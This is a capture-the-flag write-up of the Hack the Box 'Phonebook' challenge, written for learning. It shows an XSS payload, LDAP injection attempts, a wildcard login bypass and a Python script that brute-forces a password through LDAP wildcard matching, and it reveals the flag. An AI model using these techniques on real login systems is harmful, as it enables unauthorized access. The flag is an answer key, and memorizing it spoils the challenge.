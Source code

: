 # Writeup "Phonebook"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/phonebook              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-phonebook-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/__                                                 </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-02                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> __                                                   </td></tr>
</table>

## Description

> Who is lucky enough to be included in the phonebook?

## Solution

The specified URL displays a login screen including a message by someone called "Reese": 

<p align="center">
   <img src="includes/phonebook-01.png" />
</p>

When we try to open the directory containing the included image, we discover a second page with a search field. The search field sends a POST request to the `/search` endpoint but we always receive a `403 Forbidden` response.

<p align="center">
   <img src="includes/phonebook-02.png" />
</p>

When we login, the website sends a POST request to the `/login` endpoint. Since we don't know the correct credentials, we are redirected to the original page with the additional parameter `message=Authentication failed`. This message is then displayed on the login page:

<p align="center">
   <img src="includes/phonebook-03.png" />
</p>

This means that there is a _cross site scripting_ (_"XSS"_) vulnerability on this page. Since the payload is inserted intow the website using the `innerHTML` attribute, we cannot use a `<script>` tag. But we can use the following code to trigger the XSS without user interaction:

``` html
<img src="" onerror=alert(window.origin) />
```

<p align="center">
   <img src="includes/phonebook-04.png" />
</p>

After some testing however, this does not seem to help us so we look for a different approach. After reading several comments in the official discussion thread, we decide to try an injection attack in the login fields. Exploits for SQL or PHP like `Reese' #` or `Reese'; //` do not work; according to some comments, the technology behind the login seems to be LDAP. But LDAP injection strings like `Reese)(&)` only lead to a `500 Internal Server Error` response. At least, this seems to confirm that LDAP is used.

Since at this point we are stuck, we do a web search for writeups of the challenge[^1][^2]. This leads us to a frustratingly easy solution for this first step: Just use "`*`" for both username and password. This leads us to the same search page we discovered earlier, but this time we are authenticated and we can use the search function.

We are now able to search through the user database; however, this does not reveal any hints regarding the flag. Turning back to the writeups, we learn that the solution is to find the password of the user `Reese` through a bruteforce attack. This is made possible by the fact that we can use the wildcard character "`*`" for any part of the password. Therefore, we can guess one letter at a time. Flags at HTB have always the same pattern, so we try to login using "`HTB{*}`" as password, which is successful. Using the following _Python_ script, we can iterate through all possible passwords:

``` python
import requests
import string

challenge_url = "http://139.59.174.34:31321"
login_endpoint = "/login"

def testPassword(password: str) -> bool:
   password = "HTB{" + password + "}"
   payload = {'username': 'reese', 'password': password}

   response = requests.post(url=challenge_url+login_endpoint, data=payload)
   url = response.url

   return (url.find("failed") < 0)

def main():
   chars = string.ascii_letters + string.digits + "_?!"
   password = ""
   char_index = 0
   
   while char_index < len(chars):
      if testPassword(password + chars[char_index] + "*"):
         password += chars[char_index]
         char_index = 0
         print("Scanning for password... Result so far:", password)
      else:
         char_index += 1
   
   print("Flag found!")

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
Scanning... d
Scanning... d1
Scanning... d1r
Scanning... d1re
Scanning... d1rec
Scanning... d1rect
Scanning... d1recto
Scanning... d1rector
Scanning... d1rectory
Scanning... d1rectory_
Scanning... d1rectory_h
Scanning... d1rectory_h4
Scanning... d1rectory_h4x
Scanning... d1rectory_h4xx
Scanning... d1rectory_h4xx0
Scanning... d1rectory_h4xx0r
Scanning... d1rectory_h4xx0r_
Scanning... d1rectory_h4xx0r_i
Scanning... d1rectory_h4xx0r_is
Scanning... d1rectory_h4xx0r_is_
Scanning... d1rectory_h4xx0r_is_k
Scanning... d1rectory_h4xx0r_is_k0
Scanning... d1rectory_h4xx0r_is_k00
Scanning... d1rectory_h4xx0r_is_k00l
Flag found!
```

Therefore, the flag is:

```
HTB{d1rectory_h4xx0r_is_k00l}
```

### Sources

[^1]: https://skelter.hashnode.dev/htb-phonebook-writeup
[^2]: https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/
[^3]: 
